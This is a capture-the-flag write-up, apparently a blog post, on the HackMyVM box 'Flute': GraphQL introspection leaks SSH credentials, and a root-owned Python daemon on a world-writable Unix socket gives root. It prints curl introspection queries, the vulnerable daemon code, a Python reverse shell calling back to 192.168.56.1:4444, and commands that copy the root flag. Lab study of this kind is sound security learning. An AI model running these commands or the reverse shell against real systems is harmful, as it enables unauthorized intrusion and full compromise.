+++
date = '2026-08-18T14:25:00+03:00'
draft = false
title = 'Flute — HackMyVM'
tags = ["HackMyVM", "Linux", "GraphQL", "Apollo Server", "Privilege Escalation", "Unix Socket", "SSH", "GraphQL Introspection", "CTF Writeup"]
feature = 'feature.png'
showTableOfContents = true
+++

## Overview

Hamelin is a Linux-based CTF challenge running on Alpine Linux. The attack chain begins with enumerating an exposed GraphQL API running on Apollo Server, which leaks valid SSH credentials through introspection queries. After gaining initial access, I discovered a Python script running as root that listens on a world-readable Unix socket and executes arbitrary commands. By connecting to this socket, I achieved full root compromise.

## Step 1: Reconnaissance and Enumeration

The assessment began with an nmap scan against the target (192.168.56.102) to identify running services.

```
nmap -sV -sC -p- 192.168.56.102
```

```
PORT     STATE SERVICE         REASON         VERSION
22/tcp   open  ssh             syn-ack ttl 64 OpenSSH 10.0 (protocol 2.0)
8888/tcp open  sun-answerbook? syn-ack ttl 64
```

**Key Findings:**

- SSH (22) allows password authentication.
- Port 8888 hosts an instance of Apollo Server, an open-source GraphQL server for Node.js.



### Port 8888 — GraphQL Exploration

The service on port 8888 responded with CORS headers, confirming it was a web-based GraphQL endpoint. I tested a basic introspection query to confirm the server was running.

```
curl --request POST \
  --header 'content-type: application/json' \
  --url 'http://192.168.56.102:8888/' \
  --data '{"query":"query { __typename }"}'
```

```
{"data":{"__typename":"Query"}}
```



I then queried the full schema to enumerate all available types.

```
curl --request POST \
  --header 'content-type: application/json' \
  --url 'http://192.168.56.102:8888/' \
  --data '{"query":"{ __schema { types { name } } }"}'
```



The schema revealed a `User` type alongside standard GraphQL types.

```json
{
  "data": {
    "__schema": {
      "types": [
        { "name": "User" },
        { "name": "String" },
        { "name": "Query" },
        { "name": "Boolean" },
        ...
      ]
    }
  }
}
```

I queried the `User` type to see its fields.

```
curl --request POST \
  --header 'content-type: application/json' \
  --url 'http://192.168.56.102:8888/' \
  --data '{"query":"{ __type(name: \"User\") { fields { name } } }"}'
```



The type exposes `username` and `password` fields. I queried the users directly.

```
curl --request POST \
  --header 'content-type: application/json' \
  --url 'http://192.168.56.102:8888/' \
  --data '{"query":"{ users { username password } }"}'
```



```json
{
  "data": {
    "users": [
      {
        "username": "admin",
        "password": "<REDACTED>"
      },
      {
        "username": "hamelin",
        "password": "<REDACTED>"
      }
    ]
  }
}
```

The GraphQL API returned plaintext credentials for two users: `admin` and `hamelin`.

## Step 2: Initial Access

Using the credentials obtained from the GraphQL API, I authenticated via SSH as `hamelin`.



### Local Enumeration

Checking sudo privileges showed no elevated rights.



The target was running Alpine Linux.



I uploaded LinPEAS to automate enumeration and discovered a suspicious process running under `/opt`.



## Step 3: Privilege Escalation

LinPEAS revealed a Python script running as root that listens on a Unix socket. Our user had read access to the script.





The script creates a Unix socket at `/tmp/ratd.sock` with permissions `777`, meaning any local user can connect. It accepts commands prefixed with `RUN ` and executes them via `os.system()`.

```python
import socket
import os

sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
socket_path = "/tmp/ratd.sock"

if os.path.exists(socket_path):
    os.remove(socket_path)

sock.bind(socket_path)
os.chmod(socket_path, 0o777)
sock.listen(1)

print("Rat daemon running...")

while True:
    conn, _ = sock.accept()
    data = conn.recv(1024).decode()

    if data.startswith("RUN "):
        cmd = data[4:]
        os.system(cmd)   
        conn.send(b"OK\n")
    else:
        conn.send(b"Unknown command\n")

    conn.close()
```

I tested the socket by sending a simple command.

```
echo -n 'RUN id' | nc -U /tmp/ratd.sock
```



The socket responded with `OK`, confirming that commands are being executed as root. After testing multiple injection methods, I settled on a reverse shell approach.



### Method 1: Reverse Shell

I spawned a root reverse shell using Python, since the target had Python available.

```
echo 'RUN python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.1\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])"' | nc -U /tmp/ratd.sock
```



I used Penelope to catch the incoming shell.





### Method 2: Copying the Flag

Alternatively, I copied the root flag to a readable location.

```
echo 'RUN cp /root/root.txt /home/hamelin/' | nc -U /tmp/ratd.sock
echo 'RUN chmod 777 /home/hamelin/root.txt' | nc -U /tmp/ratd.sock
```



## Conclusion

This box demonstrated a full compromise through a chain of GraphQL misconfigurations and a poorly secured daemon:

1. An exposed GraphQL API with introspection enabled leaked plaintext user credentials.
2. Credential reuse via SSH granted initial access as `hamelin`.
3. A Python script running as root exposed a world-readable Unix socket (`/tmp/ratd.sock`) that executed arbitrary commands without authentication.
4. Connecting to the socket with a `RUN` payload yielded immediate root access.

To secure the environment, the following remediations are recommended:

- **Disable GraphQL introspection** in production environments to prevent schema enumeration.
- **Never store or return plaintext passwords** in any API response.
- **Restrict Unix socket permissions** to only the necessary user or group.
- **Avoid using `os.system()`** with unsanitized input; use `subprocess.run()` with argument lists.
- **Run services under least-privilege accounts** rather than root.
